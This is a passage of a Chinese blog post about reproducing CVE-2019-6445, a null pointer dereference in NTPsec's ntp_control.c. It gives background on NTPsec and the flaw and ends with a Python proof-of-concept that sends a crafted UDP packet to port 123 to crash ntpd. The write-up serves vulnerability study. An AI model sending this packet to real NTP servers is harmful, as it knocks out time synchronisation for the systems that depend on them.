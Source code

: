 ```yaml
---
title: 怎样才算复现一个CVE？CVE-2019-6445 NTPsec逆向空指针利用
date: 2024-09-27 08:02
author: kidder1
cover: true
sidebar: []
readmore: true
tags: 
- 公众号推文
- 二进制安全
categories:
- 公众号推文
---
```


**怎样才算复现一个CVE？CVE-2019-6445 NTPsec逆向空指针利用**



## 软件介绍



NTPsec是一个基于网络时间协议（Network Time Protocol，NTP）的开源时间同步软件项目。它是对传统的NTP软件的重新实现，旨在提供更高的安全性、可靠性和性能。

NTP是用于在计算机网络中同步时钟的协议，它允许计算机通过网络获取准确的时间信息。传统的NTP实现存在一些安全和可靠性方面的问题，例如容易受到网络攻击和时间信息伪造。NTPsec项目致力于解决这些问题，并改进NTP软件的功能。

NTPsec项目的目标是提供一个更安全、更现代化、更易于维护的NTP实现。它采用了更严格的代码审查和安全措施，修复了安全漏洞，并改进了协议的可靠性和性能。NTPsec还通过支持新的网络安全特性，如Network Time Security（NTS），提供了更强大的安全保护。

NTPsec的开发始于2014年，由一群志愿者开发者组成的团队共同推动。该项目是开源的，遵循自由软件许可证（类似于BSD许可证）。它在Linux、Unix和类似系统上可用，并广泛用于服务器、网络设备和其他需要准确时间同步的系统中。



## 漏洞描述



NTPsec是一个网络时间协议的实现。

NTPsec 1.1.3之前版本中的ntp_control.c文件存在空指针逆向引用漏洞。攻击者可利用该漏洞造成tpd崩溃。



## 漏洞原因



poc：https://github.com/snappyJack/CVE-2019-8936/

源码：https://github.com/ntpsec/ntpsec/releases/tag/NTPsec_1_1_2

## POC

```python

\#!/usr/bin/env python
 \# note this PoC exploit uses keyid 1, password: gurka
 
 import sys 
 import socket
 
 buf = ("\x16\x03\x00\x03\x00\x00\x00\x00\x00\x00\x00\x04\x6c\x65\x61\x70" +
     "\x00\x00\x00\x01\x5c\xb7\x3c\xdc\x9f\x5c\x1e\x6a\xc5\x9b\xdf\xf5" +
     "\x56\xc8\x07\xd4")
 
 sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
 sock.sendto(buf, ('127.0.0.1', 123))
```